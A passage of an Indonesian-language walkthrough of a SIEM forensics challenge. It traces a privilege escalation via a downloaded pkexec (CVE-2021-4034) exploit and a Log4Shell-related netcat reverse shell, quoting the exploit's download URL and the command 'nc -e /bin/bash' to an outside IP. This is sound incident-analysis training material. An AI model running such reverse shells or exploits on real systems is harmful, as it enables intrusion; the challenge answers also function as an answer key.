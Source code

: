Kami pun langsung masuk ke menu analyze box pada data terakhir, dan benar saja kami menemukan process “wget” seperti pada gambar.
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183103316-e1f26658-594b-4cd9-9a3b-1523c7f46aca.png">
<br><br>
Terlihat pada gambar, bahwa username “salem” mencoba melakukan prosess download file menggunakan perintah "wget", dan file yang didownload adalah “https://raw. githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py”
<br><br>
14. After The attacker runs the exploit, which spawns a new process called pkexec, what is the process's md5 hash?
<br><br>
Masih menggunakan analyze box, kami langsung mencari process “pkexec” dimana proses ini memiliki nilai process.pid yaitu 3003 dan user.name yaitu “root”. Berikut adalah md5 hashnya “3a4ad518e9e404a6bad3d39dfebaf2f6”.
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183103455-194a6a76-4ceb-4a97-9589-ef9bab291ba0.png">
<br><br>
15. Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command?
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183103534-bd3e1845-a773-4fa4-a6c6-806630ebe954.png">
<br><br>
16. What is the hostname which alert signal.rule.name: "Netcat Network Activity"?
<br><br>
Kami menggunakan filter yaitu signal.rule.name dan kami atur yaitu “Netcat Network Activity”. Diketahui bahwa data tersebut hanya ada satu dan sedang menjalankan process name nc dengan hostname CentOS.
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183103619-be22afa3-587e-42db-868a-6169a51195d1.png">
<br><br>
17. What is the username who ran netcat?
<br><br>
Lagi, berdasarkan pencarian sebelumnya selain mendapatkan data hostname, kami juga mendapatkan data username yang sedangan menjalankan netcat yaitu solr.
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183103695-695cd80d-e15b-410a-ad86-94bc07729c1b.png">
<br><br>
18. What is the parent process name of netcat?
<br><br>
Kami Kembali menelurusi lebih detail menggunakan analyze event menu. Disini kami menemukan bahwa parent process name of netcat adalah java.
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183103751-cddbc854-3a40-4093-bb35-793de99e7a72.png">
<br><br>
19. If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?
<br><br>
disini kami mencoba mencari informasi berdasarakan traffic. kami pun masuk analytics dan discover. lalu berdasarkan pertanyaan sebelumnya kami menggunakan filter "host.name : "host.name : CentOS and user.name : solr and process.args : nc". kami pun menemukan 3 traffic data yang sesuai dengan filter kami. akhirnya kami menemukan command yang dimaksud. yaitu "nc -e /bin/bash 192.168.1.10 9999"
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183109658-0e03088a-f745-41e7-b018-655bec004a07.png">
<br><br>
20. From the previous three questions, you may remember a famous java vulnerability. What is it?
<br><br>
Berdasarkan informasi terbaru, java vulenerability yang terkenal tersebut adalah apache log4j library yaitu log4shell